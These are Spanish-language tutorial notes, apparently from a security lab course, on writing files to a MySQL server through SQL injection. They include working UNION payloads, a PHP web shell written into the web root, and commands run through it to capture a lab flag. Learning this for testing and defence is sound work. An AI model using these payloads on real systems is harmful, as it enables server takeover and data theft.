 ### Escritura de Archivos mediante Inyección SQL

---

### **Introducción**

La escritura de archivos a través de inyección SQL puede ser utilizada para exportar datos o, de manera más peligrosa, escribir archivos maliciosos como shells web que permiten la ejecución remota de comandos en el servidor. Sin embargo, las configuraciones modernas de DBMS hacen que esta funcionalidad esté limitada y dependiente de privilegios específicos.

---

### **Requisitos para Escribir Archivos**

Para escribir archivos en el servidor mediante MySQL/MariaDB, se deben cumplir las siguientes condiciones:

1. **Usuario con privilegio `FILE` habilitado**:
    
    - Este privilegio permite leer y escribir archivos en el sistema.
2. **Variable `secure_file_priv` configurada adecuadamente**:
    
    - **Vacía**: Permite leer y escribir en cualquier parte del sistema.
    - **Directorio específico**: Restringe a ese directorio.
    - **NULL**: Bloquea completamente la lectura/escritura.
3. **Permisos de escritura en el directorio de destino**:
    
    - El usuario del sistema operativo que ejecuta MySQL debe tener acceso al directorio donde se desea escribir.

---

### **Paso 1: Verificar `secure_file_priv`**

Para conocer el valor de `secure_file_priv`, usamos la tabla `global_variables` en la base de datos `INFORMATION_SCHEMA`:

#### **Consulta SQL**

```sql
SELECT variable_name, variable_value 
FROM information_schema.global_variables 
WHERE variable_name="secure_file_priv";
```

#### **Payload de inyección SQL**

```sql
' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables WHERE variable_name="secure_file_priv"-- -
```

**Posibles valores de `secure_file_priv`**:

- **Vacío (`""`)**: Permite leer/escribir en todo el sistema.
- **Directorio**: Permite leer/escribir solo en el directorio especificado.
- **NULL**: Bloquea la lectura/escritura de archivos.

---

### **Paso 2: Escribir Archivos con `SELECT INTO OUTFILE`**

La instrucción `SELECT INTO OUTFILE` permite exportar datos de una consulta SQL a un archivo.

#### **Ejemplo básico**

Escribir los datos de una tabla en un archivo:

```sql
SELECT * FROM users INTO OUTFILE '/tmp/credentials';
```

Escribir una cadena personalizada en un archivo:

```sql
SELECT 'Este es un archivo de prueba' INTO OUTFILE '/tmp/test.txt';
```

**Resultado esperado**:

- El archivo `/tmp/test.txt` contendrá:
    
    ```
    Este es un archivo de prueba
    ```
    

---

### **Paso 3: Escribir Archivos mediante Inyección SQL**

Podemos escribir archivos al servidor utilizando la misma técnica de inyección `UNION`.

#### **Ejemplo básico**

Escribir un archivo de prueba en el directorio web:

```sql
' UNION SELECT 1, 'archivo creado exitosamente', 3, 4 INTO OUTFILE '/var/www/html/proof.txt'-- -
```

**Verificar el archivo**: Accede al archivo en el navegador:

```
http://SERVER_IP:PORT/proof.txt
```

---

### **Paso 4: Escribir un Web Shell**

Un web shell es un archivo malicioso (generalmente en PHP) que permite ejecutar comandos en el servidor. Esto se logra escribiendo código PHP al sistema mediante inyección SQL.

#### **Contenido del web shell**

```php
<?php system($_REQUEST[0]); ?>
```

#### **Payload para escribir el shell**

```sql
' UNION SELECT "", '<?php system($_REQUEST[0]); ?>', "", "","" INTO OUTFILE '/var/www/html/shell.php'-- -
```

**Verificar el shell**: Accede al archivo:

```
http://SERVER_IP:PORT/shell.php?0=id
```

**Resultado**:

- El comando `id` se ejecutará en el servidor, mostrando la identidad del usuario del sistema operativo.

---

### **Notas importantes**

1. **Identificar el directorio web**:
    
    - Si el directorio web no es conocido, utiliza `LOAD_FILE` para leer configuraciones como:
        - Apache: `/etc/apache2/apache2.conf`.
        - Nginx: `/etc/nginx/nginx.conf`.
2. **Fuzzing para encontrar el directorio**:
    
    - Realiza pruebas de escritura en directorios comunes como `/var/www/html` en Linux o `%SystemDrive%\inetpub\wwwroot` en Windows.
3. **Uso de `FROM_BASE64`**:
    
    - Para escribir archivos largos o binarios, codifica los datos en Base64 y utilízalos con:
        
        ```sql
        SELECT FROM_BASE64('cHJ1ZWJhIHRleHRvIGVuIGJhc2U2NA==') INTO OUTFILE '/ruta/archivo';
        ```
        

---

### **Precauciones y Consideraciones**

1. **Privilegios limitados**:
    
    - Si `secure_file_priv` está configurado como `NULL`, no se podrá leer/escribir archivos.
    - Verifica siempre los permisos del sistema operativo.
2. **Detección y errores**:
    
    - Si no ves errores tras ejecutar el payload, probablemente la escritura fue exitosa.
3. **Impacto de seguridad**:
    
    - Un web shell concede al atacante control total del servidor.
    - Es una técnica altamente peligrosa en sistemas vulnerables.

---

### **Resumen**

- **`SELECT INTO OUTFILE`** permite escribir datos en el servidor.
- Puedes escribir un **web shell** para ejecutar comandos en el sistema.
- Verifica los privilegios (`FILE`) y la configuración (`secure_file_priv`) antes de intentar escribir archivos.
- Utiliza rutas adecuadas y payloads optimizados para escribir archivos maliciosos o de prueba.

### **EJERCICIO**

una vez creada la webshell ejecutamos `http://83.136.253.73:51347/shell.php?0=cd+/var/www+;+ls+;cat+flag.txt`

y obtenemos la flag
![[Pasted image 20250118135552.png]]